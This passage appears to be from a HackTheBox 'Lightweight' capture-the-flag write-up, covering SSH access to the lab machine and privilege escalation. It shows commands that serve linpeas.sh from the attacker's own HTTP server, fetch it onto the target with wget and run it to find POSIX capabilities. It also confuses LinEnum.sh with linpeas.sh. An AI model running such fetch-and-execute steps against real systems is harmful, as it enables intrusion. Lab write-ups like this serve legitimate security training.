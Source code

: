 **Command**: *ssh 10.10.14.14@10.10.10.119* **and** *password: 10.10.14.14*

We don't have permissions to access `ldapuser1` and `ldapuser2`.

___
![](/assets/img/lightweight-hackthebox/permission-denied-ldapuser-11.png)

Let's use `LinEnum.sh` to escalate privileges.

___
![](/assets/img/lightweight-hackthebox/sending-linpeas=-sh-12.png)

**Command**: *wget http://10.10.14.14:8081/linpeas.sh* 

**Command**: *python3 -m http.server 8081*

Ran LinEnum.sh after giving executing permissions using *chmod +x linpeas.sh* and found this

___
![](/assets/img/lightweight-hackthebox/posix-capabilities-13.png)
